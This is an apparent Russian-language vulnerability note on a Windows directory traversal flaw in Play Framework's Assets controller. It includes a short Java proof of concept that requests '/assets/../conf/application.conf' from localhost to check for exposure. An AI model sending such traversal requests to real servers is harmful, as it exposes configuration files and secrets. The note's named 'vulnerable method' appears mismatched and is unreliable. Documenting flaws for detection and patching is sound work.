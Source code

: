 # Обзор #

## Описание уязвимости: ##
https://github.com/advisories/GHSA-v4mq-p756-p4f5

Уязвимость обхода каталога была обнаружена в контроллере Assets в Play Framework 2.6.12 — 2.6.15 (исправлена ​​в 2.6.16) при работе в Windows. Она позволяет удаленному злоумышленнику загружать произвольные файлы с целевого сервера с помощью специально созданных HTTP-запросов.

Когда приложение работает в Windows, можно получить доступ к файлам в classpath, хранящимся за пределами общедоступной папки, например к файлу conf/application.conf.

## public метод пакета приводящий к уязвимости ##
the.helper.Container.url.get

### Репозиторий проекта с уязвимостью: ###
https://github.com/playframework/playframework

## PoC: ##
~~~java
try {
    URL url = new URL("http://localhost:9000/assets/../conf/application.conf");
    HttpURLConnection connection = (HttpURLConnection) url.openConnection();
    connection.setRequestMethod("GET");
    int responseCode = connection.getResponseCode();
    if (responseCode == 200) {
        System.out.println("Vulnerability detected");
    }
    connection.disconnect();
} catch (Exception e) {
    e.printStackTrace();
}
~~~

## Commit, исправивший уязвимость ##
https://github.com/playframework/playframework/commit/88c2191e89e705f9929f277dc13df036bf65f4c9
